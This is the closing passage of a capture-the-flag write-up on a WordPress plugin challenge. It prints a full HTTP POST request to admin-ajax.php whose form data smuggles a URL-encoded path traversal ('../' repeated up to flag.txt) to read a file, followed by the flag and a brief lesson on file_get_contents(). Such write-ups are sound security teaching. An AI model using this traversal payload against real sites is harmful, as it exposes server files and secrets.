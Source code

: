 ## Exploitation

Armed with above information, we can send the following HTTP POST request to get the flag!

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 100.25.255.51:9092
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

action=send_message&sec=6AGmIzDZktwJCaQt&formdata=jotac-plugin-messages%5bjot-message%5d%3danything%26jotac-plugin-messages%5bjot-attachment%5d%3d..%2f..%2f..%2f..%2f..%2f..%2fflag.txt&level=verbose
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922215039.png)

- **Flag: `CTF{PSEUDOLIMITED_INCLUSION_0z471}`**

## Conclusion

What we've learned:

1. Limited arbitrary file read via PHP function `file_get_contents()`